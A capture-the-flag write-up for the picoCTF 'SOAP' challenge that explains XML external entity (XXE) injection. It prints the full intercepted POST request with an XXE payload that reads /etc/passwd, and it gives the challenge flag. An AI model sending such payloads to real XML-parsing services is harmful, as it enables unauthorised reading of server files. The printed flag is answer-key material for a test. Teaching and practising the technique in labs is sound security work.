 ## Challenge: SOAP

## Category: Web Exploitation

### Description: The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

### Hints:

##### 1. XML external entity Injection

The hint gives away the whole gist of the exploit of the challenge: XXE, which is an XML eXternal Entity injection. The idea behind the exploit is that given that a website accepts XML data, it is susceptible to data infiltration, server-side request forgery (SSRF), and many more vulnerabilities. This is because a website user can supply entities, which are essentially variables in the XML language that can reference internal or external data typed out by the user. The way I went about solving the challenge was by first using Burp Suite to intercept the request made when I clicked on the Details buttons on the website. Each time one of the buttons is sent, the website generates XML data for the web server to interpret, creating a "<data>" field in a POST request to the /data directory of the website. Proof that the web server uses XML can also be seen in the xmlDetailsCheckPayload.js file, as it generates the XML code. Going into the intercepted request, I modified the XML form to get /etc/passwd to be leaked by an external entity, displaying the flag along with it:

>POST /data HTTP/1.1
Host: saturn.picoctf.net:60367
Content-Length: 61
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:60367
Referer: http://saturn.picoctf.net:60367/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
\<?xml version="1.0" encoding="UTF-8"?\>\<!DOCTYPE foo [ \<!ENTITY xxe SYSTEM "file:///etc/passwd"\> ]\>\<data\>\<ID\>&xxe;\</ID\>\</data\>

### Reference: [1](https://portswigger.net/web-security/xxe)

### Flag: picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}

Solved by giggsterpuku
